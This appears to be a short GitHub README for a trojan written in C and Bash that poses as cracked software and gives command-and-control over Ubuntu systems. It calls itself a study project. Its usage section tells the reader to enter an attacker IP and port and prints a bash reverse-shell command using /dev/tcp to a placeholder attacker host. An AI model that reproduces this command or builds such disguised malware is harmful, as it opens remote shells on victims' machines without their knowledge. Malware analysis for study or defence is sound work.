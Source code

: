 # Trojan - Crack Software
Basic trojan with command and control functionatilies for ubuntu based systems.

This trojan was created for study porpuses only, to emulate a cracked software that comes with a malware inside. It was coded in C and Bash.

How to use:

1 - Change the attacker IP Address and Port to connect in the source code (line 52).

```
bash -i >& /dev/tcp/attackerip/porttoconnect 0>&1 2>&1
```
